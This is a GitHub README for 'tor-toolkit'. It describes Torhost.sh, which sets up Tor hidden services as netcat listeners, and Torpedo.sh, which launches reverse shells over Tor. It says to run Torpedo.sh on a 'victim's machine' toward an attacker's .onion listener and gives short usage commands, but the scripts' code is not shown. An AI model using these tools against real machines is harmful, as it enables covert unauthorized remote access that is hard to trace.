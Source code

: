 # tor-toolkit
This tools are made by me for academic use. Use, modify, do whatever you want.

# Torhost.sh
Is an easy way to create and manage ephemeral hidden services for do whatever u want to do. It's mainly thinked for listener purposes but you know.
By default it uses port 80. Can be upgraded to establish TLS conecction but is not my priority right now. Tested on Debian based systems (Kali, Debian, Parrot) but might work in systemd based systems.

### Options
- install - Torhost will check if u have an hidden service set up on /etc/tor/torrc, if not, it will set up for you.
- start - Start your hidden service.
- stop - Stop your hidden service.
- change - Change hidden service hostname's and print the new one.
- check - Check the hostname of your hidden service.
- listen - Bind hidden service port to netcat local port.

#### Usage/Examples

```bash
sudo bash torhost.sh install
sudo bash torhost.sh check
```
![image](https://github.com/el10tt/tor-toolkit/assets/124470922/ce12a1b3-9db2-4fab-b0ed-84d5b02abd27)


# Torpedo.sh
Is an easy way to launch reverse shells over Tor, just download tor portable version, execute its, and trhow reverse shell trough tor proxy.
It can be executed without root privileges, Its a nice one since there aren't so much reverse shells over Tor on the Internet.

#### Usage/Examples

First of all you need a hidden service (in attacker machine) to receive the reverse shell, you can manage this hidden service with torhost.sh.
You need to bind the hidden service with the listener local port, you can do it with torhost.sh aswell.
When you got listener ready, just execute torpedo.sh in victim's machine, and just wait for your shell.
You can hardcode hidden service parameters in the script body or you can enter'them as parameter.
Torpedo is only tested on x64 debian based systems. To work in i386 you gonna need to change the URL tor package parameter, for the i386 package.

```bash
. bash torpedo.sh
. bash torpedo.sh onionhiddenservice.onion 80
```

![263494593-c47e5b87-9fd4-4363-b2de-78681d264160](https://github.com/el10tt/tor-toolkit/assets/124470922/dbae8b98-34bd-4582-98de-78db3751c15d)
